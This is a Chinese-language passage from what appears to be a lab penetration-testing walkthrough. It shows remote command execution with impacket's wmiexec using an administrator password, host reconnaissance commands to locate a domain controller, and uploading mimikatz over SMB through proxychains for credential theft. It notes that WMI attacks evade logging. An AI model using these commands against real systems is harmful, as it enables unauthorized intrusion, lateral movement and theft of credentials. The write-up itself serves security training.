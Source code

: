 ## wmiexec smb登录

wmi 出现在所有的 windows 操作系统中，由一组强大的工具集合组成，用于管理本地或远程的 windows 系统。攻击者使用 wmi 攻击时 windows 系统默认不会在日志中记录这些操作，可以做到无日志、攻击脚本无需写入到磁盘，增加了隐蔽性。

wmiexec 执行命令，搜集信息，参考：wmiexec.py 下载地址：https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

```
git clone https://github.com/CoreSecurity/impacket.git
cd impacket/
python3 -m pip install  .（pip install . 两个空格）（若pip安装出错，尝试apt install gcc-9-base ，重新下载apt-get install python-pip）
```

```
python3 wmiexec.py -debug 'administrator:123qwe!ASD@192.168.93.20'
```

![image-20221012144047466](images/45.png)

# 定位域控

其实在端口扫描的过程中，我们可以发现10开放了53端口，为DNS服务端口，可以大致的判断10为域控

登上20和30后，可以确认一下

```
ipconfig /all  #获取本机网络配置信息
wmic service list brief  #查看本机服务
tasklist  #查看进程列表
wmic process list brief #查看进程信息
schtasks /query /fo LIST /v #查看计划任务
net user #查看本机用户列表
netstat -ano #查看端口状态
systeminfo  #查看补丁列表
net share #查询本机共享列表

```

![image-20221012144336780](images/46.png)

dns servers是192.168.93.10，说明判断没错

![image-20221012144658480](images/47.png)

ping域控也是192.168.93.10

## mimikatz获取账号密码

kali 使用 smbclient 通过代理连接 windows server 2008 上传 mimikatz。下载地址 https://github.com/gentilkiwi/mimikatz/releases

```
proxychains smbclient //192.168.93.20/C$ -U administrator
put mimikatz.exe
```
